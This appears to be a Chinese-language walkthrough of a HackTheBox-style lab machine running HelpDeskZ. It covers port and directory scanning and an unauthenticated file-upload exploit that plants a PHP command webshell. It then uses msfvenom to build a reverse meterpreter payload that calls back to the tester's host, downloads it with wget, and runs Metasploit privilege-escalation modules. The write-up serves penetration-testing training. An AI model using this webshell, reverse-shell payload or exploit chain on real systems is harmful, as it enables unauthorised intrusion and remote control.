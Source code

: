 ```yaml
---
title: k-secret(File upload)
categories:
- vuln service
tags:
- training
---
```

10.10.10.121
```
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## 80

访问10.10.10.121:80，Apache/2.4.18 (Ubuntu) ，默认配置页面

```
gobuster -u http://10.10.10.121:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

http://10.10.10.121/support/
页面上的登陆表单，有csrf参数，不允许爆破弱口令

换一个字典
apache-user-enum-1.0.txt
gobuster -u http://10.10.10.121:80 -w /usr/share/wordlists/dirbuster/apache-user-enum-1.0.txt
```
#### 目录扫描
- gobuster -u http://10.10.10.121:80/support/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
/uploads (Status: 301)
/css (Status: 301)
/includes (Status: 301)
存在上传目录，302跳转到apache默认配置页面
```
- gobuster -u http://10.10.10.121/support/uploads -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
/articles (Status: 301)
/tickets (Status: 301)
```
- gobuster -u http://10.10.10.121/support/uploads/tickets -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

#### exp尝试
- searchsploit help deskZ

```
HelpDeskZ <= v1.0.2 - Unauthenticated Shell Upload
HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download

searchsploit -m exploits/php/webapps/40300.py
python 40300.py  http://10.10.10.121:80/support/ ports.txt
失败
---
python 40300.py http://10.10.10.121/support/uploads/tickets whale.php

连接错误
requests.exceptions.ConnectionError: HTTPConnectionPool(host='10.10.10.121', port=80): Max retries exceeded with url: /support/uploads/tickets/1cd2ed348346b00c48d3f78579d6431d.php (Caused by NewConnectionError('<urllib3.connection.HTTPConnection object at 0x7f0def11a290>: Failed to establish a new connection: [Errno 110] Connection timed out',))
---
searchsploit -m exploits/php/webapps/41200.py
需要一个可以登陆的口令
```
- 尝试文件上传

`http://10.10.10.121/support/?v=submit_ticket&action=displayForm`

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/5.PNG)

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/6.PNG)

- 尝试github的exp

```
wget https://raw.githubusercontent.com/trevlee/helpdeskz_exploit/master/exploit

python exploit

python exploit http://10.10.10.121/support/uploads/tickets whale.php
```

[https://raw.githubusercontent.com/trevlee/helpdeskz_exploit/master/exploit](https://raw.githubusercontent.com/trevlee/helpdeskz_exploit/master/exploit)


观察exp，是通过时间推算出上传的php脚本的名称，然后组合baseurl，查看状态码是否是200。

如果是200，说明上传成功。

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/2.PNG)

首先上传一个php脚本，上传地址参考上述步骤“尝试文件上传”,内容为`<?php echo(system($_GET["cmd"])); ?>`

![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/1.PNG)

成功上传webshell

## 3000 port

```
10.10.10.121:3000
{"message":"Hi Shiv, To get access please find the credentials with given query"}

X-Powered-By: Express

searchsploit Express
searchsploit Node.js

nikto -h http://10.10.10.121:3000 > nikto.txt

gobuster -u http://10.10.10.121:3000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
结果，没有发现任何存在目录
```

## 提权

#### 信息搜集

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/3.PNG)

```
cmd=uname+-a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
64位linux，ubuntu

pwd
/var/www/html/support/uploads/tickets

cmd=cat+/home/help/user.txt
```

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/4.PNG)

获得help用户的webshell，如果不会这一步，参考https://whale3070.github.io/tag/#/command%20execution

---
查看内核版本后，searchsploit linux 4.4.0，根据结果，值得尝试msf suggester。

生成64位msf回连载荷，上传

```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=6678 -f elf -o payload.elf
python -m SimpleHTTPServer 8001
```

攻击机webshell:

```
wget http://10.10.14.2:8001/payload.elf -P /tmp
chmod +x /tmp/payload.elf
```

本地监听：

```
msfconsole
handler -H 10.10.14.2 -P 6678 -p linux/x64/meterpreter_reverse_tcp
```

攻击机webshell:	`./payload.elf`

本地监听，成功回连msf payload:

```
use post/multi/recon/local_exploit_suggester
set SESSION 2

[+] 10.10.10.121 - exploit/linux/local/bpf_priv_esc: The target appears to be vulnerable.
[+] 10.10.10.121 - exploit/linux/local/bpf_sign_extension_priv_esc: The target appears to be vulnerable.
[+] 10.10.10.121 - exploit/linux/local/glibc_realpath_priv_esc: The target appears to be vulnerable.


use exploit/linux/local/bpf_priv_esc
set SESSION 2
set LHOST 10.10.14.2
set LPORT 6679
show options
run
失败

---
use exploit/linux/local/bpf_sign_extension_priv_esc
set payload linux/x64/meterpreter_reverse_tcp
set LHOST 10.10.14.2
set LPORT 6679
set SESSION 2
show options
run
```
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/7.PNG)

